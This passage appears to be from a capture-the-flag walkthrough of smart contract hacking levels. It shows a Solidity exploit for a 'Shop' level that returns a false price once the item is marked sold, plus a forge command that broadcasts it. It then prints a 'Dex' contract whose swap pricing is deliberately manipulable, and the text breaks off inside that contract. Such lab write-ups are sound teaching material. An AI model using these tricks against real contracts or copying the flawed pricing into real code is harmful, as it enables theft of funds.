 ```solidity
    Shop public instance = Shop(0x0a21654f3EA8917a109E09C32eC3aAF814e8d665);

    function exploit() public {
        instance.buy();
    }
    function price() external view returns (uint){
        if(instance.isSold() == false){
            return 100;
        }
        return 9;
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level21Solution.s.sol:Level21Sol --rpc-url $RPC_URL --broadcast
```

## Dex

**Level22.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts/contracts/access/Ownable.sol';

contract Dex is Ownable(address(0x00)) {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }
```